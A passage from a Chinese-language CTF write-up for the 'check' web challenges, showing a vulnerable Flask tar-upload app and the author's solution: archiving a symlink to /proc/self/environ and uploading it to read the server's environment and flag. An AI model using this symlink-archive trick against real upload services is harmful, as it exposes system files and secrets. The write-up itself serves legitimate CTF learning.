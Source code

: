 ```python
    with open(filepath, 'r') as f:
        return f.read()
    
@app.route('/clean', methods=['POST'])
def clean_file():
    os.system('/tmp/clean.sh')
    return 'success'

if __name__ == '__main__':
    app.run(host='0.0.0.0', debug=True, port=80)
```

对软链接没有任何限制，直接非预期了

想着flask算pin，先看了下env

```shell
ln -s /proc/self/environ 1
tar -zcvf 1.tar 1     #-z 用于压缩软连接
POST上传
```

![image-20221016221716692](D:\Typora\note\CTF\web\比赛wp\NSS#6.assets\image-20221016221716692.png)

访问得到flag

### check(Revenge)

侥幸非预期拿了个一血😋

```python

# -*- coding: utf-8 -*-
from flask import Flask,request
import tarfile
import os

app = Flask(__name__)
app.config['UPLOAD_FOLDER'] = './uploads'
app.config['MAX_CONTENT_LENGTH'] = 100 * 1024
ALLOWED_EXTENSIONS = set(['tar'])

def allowed_file(filename):
    return '.' in filename and \
        filename.rsplit('.', 1)[1].lower() in ALLOWED_EXTENSIONS

@app.route('/')
def index():
    with open(__file__, 'r') as f:
        return f.read()

@app.route('/upload', methods=['POST'])
def upload_file():
    if 'file' not in request.files:
        return '?'
    file = request.files['file']
    if file.filename == '':
        return '?'

    if file and allowed_file(file.filename) and '..' not in file.filename and '/' not in file.filename:
        file_save_path = os.path.join(app.config['UPLOAD_FOLDER'], file.filename)
        if(os.path.exists(file_save_path)):
            return 'This file already exists'
        file.save(file_save_path)
    else:
```